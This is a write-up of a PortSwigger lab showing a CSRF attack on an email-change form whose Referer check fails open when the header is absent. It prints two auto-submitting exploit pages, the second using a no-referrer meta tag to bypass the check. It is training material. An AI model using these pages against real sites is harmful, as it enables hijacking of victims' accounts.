 # CSRF where Referer validation depends on header being present

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present), you'll learn: CSRF where Referer validation depends on header being present! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215045943.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050007.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050014.png)

In the previous labs, we found that the email change functionality is vulnerable to CSRF.

**Let's inspect the HTML form in the update email:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```

**In here, we didn't see a CSRF token!**

**Now, we use the `exploit server` to test CSRF attack!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050513.png)

**Then, we can craft a HTML form that performs CSRF attack to the victim:**
```html
<html>
    <head>
        <title>CSRF-11</title>
    </head>
    <body>
        <form action="https://0a79002404e56adfc0b5a6f6004f008e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Let's test it via the `View exploit` button!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050745.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215050759.png)

Wait... `Invalid referer header`??

**Hmm... Since the `Referer` HTTP header can be fully controlled by the attacker, we can basically bypass this check!**

**According to [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy), we can use the `<meta>` tag to ignore `Referer` HTTP header:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215051342.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215051352.png)

**To bypass that, I'll add a new `<meta>` tag to ignore `Referer` header:**
```html
<html>
    <head>
	    <meta name="referrer" content="no-referrer">
        <title>CSRF-11</title>
    </head>
    <body>
        <form action="https://0a79002404e56adfc0b5a6f6004f008e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**Finally, we can send this exploit to the victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215051517.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-11/images/Pasted%20image%2020221215051523.png)

We successfully changed a victim email address!

# What we've learned:

1. CSRF where Referer validation depends on header being present